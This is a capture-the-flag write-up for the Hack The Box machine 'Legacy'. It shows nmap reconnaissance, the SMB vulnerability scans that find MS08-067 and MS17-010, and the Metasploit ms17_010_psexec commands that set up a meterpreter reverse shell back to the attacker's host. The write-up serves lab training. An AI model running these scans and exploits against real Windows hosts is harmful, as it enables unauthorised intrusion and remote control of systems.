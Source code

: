 ## ---------->> Legacy <<-----------

-----

// We will start with nmap scan

    $ nmap -sV -A -Pn 10.10.10.4 -p-
----

    Nmap scan report for 10.10.10.4
    Host is up (0.15s latency).
    Not shown: 65532 filtered ports
    PORT     STATE  SERVICE       VERSION
    139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp  open   microsoft-ds  Windows XP microsoft-ds
    3389/tcp closed ms-wbt-server
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:27:62 (VMware)
    | smb-os-discovery: 
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2021-07-10T19:21:23+03:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)



// cannot coonect smb withouth autentication
// so we search nmap for smb vulnurabillities

    $ ls /usr/share/nmap/scripts/ | grep smb | grep vuln
----

    smb-vuln-conficker.nse
    smb-vuln-cve-2017-7494.nse
    smb-vuln-cve2009-3103.nse
    smb-vuln-ms06-025.nse
    smb-vuln-ms07-029.nse
    smb-vuln-ms08-067.nse
    smb-vuln-ms10-054.nse
    smb-vuln-ms10-061.nse
    smb-vuln-ms17-010.nse
    smb-vuln-regsvc-dos.nse
    smb-vuln-webexec.nse
    smb2-vuln-uptime.nse

// Lets run all nmap smb scripts on the host

    $ nmap --script smb-vuln* -Pn -p 445 -A 10.10.10.4
----

    Nmap scan report for 10.10.10.4
    Host is up (0.13s latency).

    PORT    STATE SERVICE      VERSION
    445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
    Service Info: OS: Windows XP; CPE: cpe:/o:microsoft:windows_xp

    Host script results:
    | smb-vuln-ms08-067: 
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |           
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    
    

// We can see that its vulnerable to (MS08-067) and (ms17-010)

### ---Exploitation---

// Little search in exploit-db we can see that (ms17-010) avalible in MetaSploit

    $ msfconsole
----

    msf6 > use exploit/windows/smb/ms17_010_psexec
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 10.10.10.4
    rhosts => 10.10.10.4
    msf6 exploit(windows/smb/ms17_010_psexec) > set lhost 10.10.17.8
    lhost => 10.10.17.8
    msf6 exploit(windows/smb/ms17_010_psexec) > set lport 1444
    lport => 1444
    msf6 exploit(windows/smb/ms17_010_psexec) > exploit


![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Legacy/1.png)





